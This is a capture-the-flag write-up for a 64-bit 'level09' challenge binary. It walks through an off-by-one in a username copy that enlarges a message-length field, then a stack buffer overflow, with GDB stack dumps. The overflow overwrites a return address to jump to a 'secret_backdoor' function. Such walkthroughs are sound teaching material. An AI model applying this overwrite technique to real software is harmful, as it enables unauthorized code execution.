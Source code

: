 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 
Level09 requires you to deepen your understanding of reverse-engineering.

# Explanation
Upon decompiling the binary, we stumble accross unusual declarations:
```c
  char v1[140]; 
  __int64 v2;
  __int64 v3;
  __int64 v4;
  __int64 v5;
  __int64 v6;
  int v7;

  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 140;
```
With some investigation and a couple of hints (`strncpy` starting at certain indexes, functions writing at certain length stored at specific offsets from the start of the structure...) we guess that the lineup of declaration and assignation represents a structure:
```c
typedef struct s_message {
	char 	message[140];
	char	username[40];
	int		msg_len;
}			t_message;
```

However, we note a few key points:
- The copy of the passed username by `set_username()` writes 41 characters, when the buffer can only hold 40 characters (`for (i = 0; i <= 40 && s[i]; ++i)` when the buffer is 40 bytes long, and the loop writes characters from 0 to 40 included, so it's 41 characters)
- The copy of the message can be altered if we manage to increase the `msg_len` attribute from the `mess` structure.
- There is a `secret_backdoor()` function that we would like to access.

Let's see what we can do with GDB (the binary is a 64-bits binary so the names of the registers are different):
```
(gdb) b handle_msg
Breakpoint 1 at 0x8c4
(gdb) b set_username
Breakpoint 2 at 0x9d1
(gdb) b set_msg
Breakpoint 3 at 0x936
(gdb) r
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) c
Continuing.

Breakpoint 2, 0x00005555555549d1 in set_username ()
(gdb) c
Continuing.
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 3, 0x0000555555554936 in set_msg ()
(gdb) x/120x $sp
0x7fffffffec50:	0xffffed20	0x00007fff	0x55554924	0x00005555
0x7fffffffec60:	0x0000000a	0x00000000	0x55554c69	0x00005555
0x7fffffffec70:	0xf7ff7000	0x00007fff	0xf7a94713	0x00007fff
0x7fffffffec80:	0xf7dd4260	0x00007fff	0xf7dd4260	0x00007fff
0x7fffffffec90:	0x0000000a	0x00000000	0xf7ff7000	0x00007fff
0x7fffffffeca0:	0x0000002d	0x00000000	0xf7a945da	0x00007fff
0x7fffffffecb0:	0x00000086	0x00000000	0x0000002d	0x00000000
0x7fffffffecc0:	0x0000000a	0x00000000	0x55554c10	0x00005555
0x7fffffffecd0:	0xffffee10	0x00007fff	0xf7a95d45	0x00007fff
0x7fffffffece0:	0xf7dd4260	0x00007fff	0xf7a9608f	0x41414141
0x7fffffffecf0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffed00:	0x41414141	0x0000000a	0x00000000	0x00000000
0x7fffffffed10:	0x00000000	0x0000008c	0xffffed30	0x00007fff
```
We see that the length for the message is stored at `0x7fffffffed18` (`0x0000008c` = 140)

So, what we want to do is write 40 "A" and then the character "0xff", so that the message string will be able to potentially overwrite the return address.

We pass 40 "A" + "0xff" as username:
```
0x7fffffffecf0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffed00:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffed10:	0x41414141	0x000000ff	0xffffed30	0x00007fff
```
The message len is now `0xff` = 255 characters long, if we write many 'B' we get:
```
0x7fffffffec60:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffec70:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffec80:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffec90:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffeca0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffecb0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffecc0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffecd0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffece0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffecf0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed00:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed10:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed20:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed30:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed40:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffed50:	0x42424242	0x42424242	0x42424242	0x00424242
0x7fffffffed60:	0x00000000	0x00000000	0xc283bfc9	0x554bdbb5
...
(gdb) c
Continuing.
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
```
...and segfault.

Just find where the return address sits at, calculate the offset starting from the beginning of the address of the message in the message struct, get the address of the `secret_backdoor` function using `info functions` in GDB, pack it all in a script and you are good to go.

Start of the message buffer: `0x7fffffffec60`

To find the return address, ask GDB to print the content at each address in 64-bit format:
```
(gdb) x/120gx $sp
0x7fffffffe4d0:	0x000000000000000a	0x0000555555554c69
0x7fffffffe4e0:	0x00007ffff7ff7000	0x00007ffff7a94713
0x7fffffffe4f0:	0x00007ffff7dd4260	0x00007ffff7dd4260
0x7fffffffe500:	0x000000000000000a	0x00007ffff7ff7000
0x7fffffffe510:	0x000000000000002d	0x00007ffff7a945da
0x7fffffffe520:	0x0000000000000086	0x000000000000002d
0x7fffffffe530:	0x000000000000000a	0x0000555555554c10
0x7fffffffe540:	0x00007fffffffe680	0x00007ffff7a95d45
0x7fffffffe550:	0x00007ffff7dd4260	0xfffffffff7a9608f
0x7fffffffe560:	0xffffffffffffffff	0xffffffffffffffff
0x7fffffffe570:	0xffffffffffffffff	0xffffffffffffffff
0x7fffffffe580:	0x000000ffffffffff	0x00007fffffffe5a0
0x7fffffffe590:	0x00007fffffffe5a0	0x0000555555554abd
```
Where `0x0000555555554abd` is the return address of the `handle_msg` function.
```
(gdb) disass main
Dump of assembler code for function main:
   0x0000555555554aa8 <+0>:	push   %rbp
   0x0000555555554aa9 <+1>:	mov    %rsp,%rbp
   0x0000555555554aac <+4>:	lea    0x15d(%rip),%rdi        # 0x555555554c10
   0x0000555555554ab3 <+11>:	callq  0x555555554730 <puts@plt>
   0x0000555555554ab8 <+16>:	callq  0x5555555548c0 <handle_msg>
   0x0000555555554abd <+21>:	mov    $0x0,%eax
   0x0000555555554ac2 <+26>:	pop    %rbp
   0x0000555555554ac3 <+27>:	retq
End of assembler dump.
```
So, we want to overflow address `0x7fffffffe598` and fill its content with the address of `secret_backdoor`: `0x000055555555488c` (see `info functions`)

After we filled out the message buffer, we can see that the return address has been overwritten:
```
(gdb) x/120gx $sp
0x7fffffffe4d0:	0x42424242424242ff	0x4242424242424242
0x7fffffffe4e0:	0x4242424242424242	0x4242424242424242
0x7fffffffe4f0:	0x4242424242424242	0x4242424242424242
0x7fffffffe500:	0x4242424242424242	0x4242424242424242
0x7fffffffe510:	0x4242424242424242	0x4242424242424242
0x7fffffffe520:	0x4242424242424242	0x4242424242424242
0x7fffffffe530:	0x4242424242424242	0x4242424242424242
0x7fffffffe540:	0x4242424242424242	0x4242424242424242
0x7fffffffe550:	0x4242424242424242	0x4242424242424242
0x7fffffffe560:	0x4242424242424242	0x4242424242424242
0x7fffffffe570:	0x4242424242424242	0x4242424242424242
0x7fffffffe580:	0x4242424242424242	0x4242424242424242
0x7fffffffe590:	0x4242424242424242	0x000055555555488c
```
Now, we can just resume the execution and print the flag!

Easier done with the script in `Resources/script.py`:
```bash
./level09 < <(python script.py)
```

GG!

# Resources
